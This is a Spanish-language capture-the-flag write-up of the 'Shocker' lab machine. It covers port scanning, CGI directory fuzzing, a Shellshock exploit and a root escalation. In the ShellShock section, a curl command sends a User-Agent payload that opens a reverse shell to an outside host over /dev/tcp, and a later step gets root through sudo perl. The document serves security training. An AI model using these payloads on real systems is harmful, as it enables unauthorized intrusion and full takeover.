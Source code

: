 
# 🕵️‍♂️Reconocimiento

Para empezar, vamos a ver si la maquina esta activa, y en base al ttl que nos de, podemos estimar si es una maquina, linux o windows
![[Shocker3.png]]
En este caso como el ttl es cercano a 64, es una maquina linux

Comenzamos con el escaneo de puertos utilizando `nmap`: 
```shell
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.10.56 -oG allports
```

![[Shocker1.png]]
En base a los resultados, sabemos que el puerto 80 y el 2222 estan abiertos, asi que vamos a realizar un escaneo exhaustivo, sobre los puertos 2222 y 80
```shell
nmap -sCV -p80,2222 10.10.10.56 -oN target
```

![[Shocker2.png]]
Ahora pudimos identificar que en el puerto 80 corre un servicio de apache y en el 2222 un servicio ssh

-------------
# 🌐Enumeracion
Al ver el servicio apache en puerto 80. Usamos la herramienta `whatweb` para identificar las tecnologías que corren en la pagina
```
whatweb http://10.10.10.56
```
![[Shocker4.png]]
Nos confirma que en el puerto 80 esta corriendo un servicio apache y no nos da ninguna información extra relevante

### Enumeracion con Ffuf
```shell
ffuf -u http://10.10.10.56/FUZZ/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
```
![[Shocker5.png]]
Nos da que existe un directorio http://10.10.10.56/cgi-bin/

Ahora aplicamos enumeracion en este directorio buscando archivos  con extension   ``.sh .pl .cgi`` 
```shell
ffuf -u http://10.10.10.56/cgi-bin/FUZZ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -e .sh,.pl,.cgi
```
![[Shocker6.png]]

Y da que en el directorio cgi-bin hay un archivo user.sh   `http://10.10.10.56/cgi-bin/user.sh`
Como estamos ante el directorio cgi-bin, ejecutamos un comando de enumaracion de shellshock de `nmap`:
```shell
nmap -p80 10.10.10.56 --script http-shellshock --script-args uri=/cgi-bin/user.sh
```
Dice que es vulnerable a shellshock, asi que ahora vamos a explotarlo
![[Shocker7.png]]
# 🖫 ShellShock 
[Articulo de shellshock](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/cgi.html)
curl -s -X GET "http://10.10.10.56/cgi-bin/user.sh" -H "User-Agent: () { :; };echo;echo; /bin/bash -i >& /dev/tcp/10.10.16.6/443 0>&1"
	aca no se usa el %26 para el & por que estamos dentro de bash y no se va a decodificar
	se pone el ;echo;echo para separar el payload malioso del comando
Esto va a ejecutar una revershell, nos podnemos en escucha por el puerto 443 y ganamos acceso a la maquina

![[Shocker8.png]]

# 🪟Tratamiento de la tty
Una vez dentro de la maquina vamos a hacer un tratamiento de la tty, para que nos ande bien el CTRL+C. CTRL +L y mas funciones
```bash
script  /dev/null -c bash
CTRL+Z
stty raw -echo;fg
reset xterm
export SHELL=bash
export TERM=xterm
stty rows 37 columns 174 //Ajusta las dimensiones del terminal
```

# Flag de intrusion
Ejecuto el comando `ls` para buscar la flag, no esta en el directorio actual y como no esta busco con find
```
find / -name user.txt 2>/dev/null
//Da como resultado /home/shelly/user.txt
cat /home/shelly/user.txt
```

![[Shocker9.png]]


# Escalada de privilegios
Ejecuto el comando
```shell
sudo -l
```

![[Shocker10.png]]
Se puede ejecutar el binario de perl, con privilegio de root sin contraseña. 
Asi que vamos a la pagina de [gtfobins](https://gtfobins.github.io/gtfobins/perl/#sudo) y nos da un comando para ejecutar una bash con privilegios
```bash
sudo perl -e 'exec "/bin/sh";'
```

![[Shocker11.png]]
Y como se puede apreciar, ya somos root, buscamos el archivo root.txt que contiene la flag y lo cateamos

# 🧠 Notas

## Extensiones .sh .pl. cgi
**.sh** El lenguaje es bash  
**.pl** Lenguaje Perl  
**.cgi** Common Gateway Interface Script

*¿Dónde se usan los archivos .cgi?*

- En servidores antiguos o simples que no usan PHP, Node.js, etc.
- En aplicaciones legacy que usan Perl o Bash.
- En entornos educativos o demostrativos.

# 📚Creditos

[Writeup de Bast1an1c](https://bast1ant1c.github.io/shocker/#)  
Writeup oficial de HTB
